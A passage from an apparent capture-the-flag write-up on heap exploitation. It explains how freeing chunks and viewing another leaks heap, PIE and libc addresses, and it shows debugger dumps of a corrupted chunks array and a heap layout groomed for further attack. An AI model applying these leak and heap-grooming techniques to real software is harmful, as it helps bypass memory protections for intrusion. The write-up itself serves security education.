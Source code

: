 First we free idx's 7 and 9, then we `view` the chunk 11's contents and leak values from the stack, luckily we were able to leak out a heap, PIE, and libc address respectively. This is all the leaks we need.

However this has some undesirable side affects; half of our chunks have become unusable; specifically all odd indexes. This means that all chunks allocated/free'd prior to this have been cut loose; as we have no way to reference them:

Here is the `chunks` array:

```
0x55d45f1ea060 <chunks>:        0x0000000000000000      0x0054696d616f6877
0x55d45f1ea070 <chunks+16>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea080 <chunks+32>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea090 <chunks+48>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea0a0 <chunks+64>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea0b0 <chunks+80>:     0x0000000000000000      0x0054696d616f6877
```

As you can see, where our allocations used to be is the string "whoamIT".

## Feng-Shui

At this point in the program, our heap looks like this:

```
Allocated chunk | PREV_INUSE
Addr: 0x55d46019a000
Size: 0x291

Allocated chunk | PREV_INUSE <-------- chunk 1
Addr: 0x55d46019a290
Size: 0x221

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55d46019a4b0 <--------- chunk 7
Size: 0x2011
fd: 0x7f6c44c75be0
bk: 0x7f6c44c75be0

Free chunk (tcache)    <------- chunk '9'
Addr: 0x55d46019c4c0
Size: 0x110
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x55d46019c5d0
Size: 0x111       <------- chunk 11

Top chunk | PREV_INUSE
Addr: 0x55d46019c6e0
Size: 0x1e921

```
